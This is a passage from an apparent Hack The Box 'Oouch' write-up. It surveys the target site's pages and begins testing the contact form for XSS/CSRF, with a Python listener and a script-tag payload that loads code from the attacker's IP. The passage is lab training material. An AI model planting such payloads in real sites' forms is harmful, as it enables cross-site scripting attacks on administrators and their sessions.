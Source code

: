 The about page again talks about the authorization server. Let us check out Contact and then start a gobuster to check for any other interesting endpoints.

![Contact Page](/assets/htb/Oouch/webpage-contact.png)

The contact page allows us to send messages to the administrator. Admin interaction with user-submitted data is generally interesting, as we may be able to get an XSS/CSRF attack-vector from it. Let us test the form for XSS.

#### Testing for XSS/CSRF in the contact form

In order to test the XSS/CSRF, we start a python web-server, submit the payload and wait for a callback.

```bash
root@darkness:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```

We can now start testing for XSS with a simple payload like this:

```js
<script src='http://10.10.14.29/XSS'></script>
```
